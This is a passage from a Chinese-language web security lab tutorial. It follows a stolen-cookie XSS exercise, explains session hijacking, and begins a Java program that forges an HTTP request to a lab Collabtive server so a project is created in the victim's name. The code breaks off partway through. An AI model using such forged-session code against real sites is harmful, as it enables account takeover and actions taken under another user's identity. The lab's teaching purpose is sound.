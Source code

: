 这个时候，攻击者在 cookie.txt 文件里面就获取了受害者的 Cookie：

![图片描述信息](img/userid9094labid882time1429159710028.jpg)

### lab4 使用获取的 Cookie 进行会话劫持

当获取了受害者的 Cookie 以后，我们可以干嘛呢？可以利用 Cookie 登录用户，也就是会话劫持；

>会话劫持：窃取受害者的 cookie 后,攻击者可以仿造受害者向服务器发送请求,包括代表受害者创建一个新项目,发帖子,删除等等。从本质上讲, 就是劫持受害者的会话。

首先：我们查看受害者创建项目时候的请求：

![图片描述信息](img/userid9094labid882time1429159724192.jpg)

当攻击者知道了创建项目的请求以后，就可以编写一个 Java 程序发送相同的 HTTP 请求达到创建项目的目的，当然还可以进行其他的请求：

>HTTP 访问请求：

>1、打开一个连接到 web 服务器。

>2、设置必要的 HTTP 头信息。

>3、发送请求到 web 服务器。

>4、得到来自 web 服务器的响应。

```
 import java.io.*;
    import java.net.*;
    public class HTTPSimpleForge {
    public static void main(String[] args) throws IOException {
    try {
    int responseCode;
    InputStream responseIn=null;
    // URL to be forged.
    URL url = new URL ("http://www.xsslabcollabtive/admin.php?action=addpro");
    // URLConnection instance is created to further parameterize a
    // resource request past what the state members of URL instance
    // can represent.
    URLConnection urlConn = url.openConnection();
    if (urlConn instanceof HttpURLConnection) {
    urlConn.setConnectTimeout(60000);
```